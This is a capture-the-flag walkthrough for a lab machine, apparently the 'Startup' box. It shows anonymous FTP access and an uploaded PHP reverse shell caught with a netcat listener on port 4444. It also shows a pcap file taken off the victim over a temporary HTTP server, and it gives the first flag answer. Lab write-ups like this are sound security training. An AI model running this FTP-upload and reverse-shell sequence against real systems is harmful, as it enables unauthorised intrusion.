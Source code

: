 ![[startup2.png]]

## Anonymous FTP login

1. Since FTP is open, we may be able to connect anonymously. Let’s try this using the following command:
```python
ftp anonymous@10.10.206.211
```
When prompted for a password, we simply press enter and see if we get access.
![[startup4.png]]
There are three files and one directory. The ftp directory has full permissions which may play a role later.

2. Now, let’s download the files using the following command:
```python
get <filename>
```
![[startup5.png]]

3. The notice.txt message has a message about people putting memes in the share. They mention the name Maya which may be a potential username later.
![[startup6.png]]
The important.jpg image contains one of the memes that is being talked about.
I ran the image through [Aperi’Solve](https://www.aperisolve.com/) to look for anything in the image but nothing immediately stood out.

4. Let’s change to the ftp directory and see if anything is inside.
![[startup9.png]]

5. Uploading php-shell in the "ftp" directory.
![[startup10.png]]

6. Start the netcat listener using below command:
```python
nc -lvnp 4444
```

Now, execute the script that was upload in the "ftp" directory.
![[startup11.png]]
first flag --> love

7. Downloading the "suspicious" file in the local machine.
**In victim** --> 
```python
python3 -m http.server 8080
```
Execute the above command where there is this "suspicious" named file reside.

**In attacker** -->
```python
wget http://10.10.206.211:8080/suspicious.pcapng
```


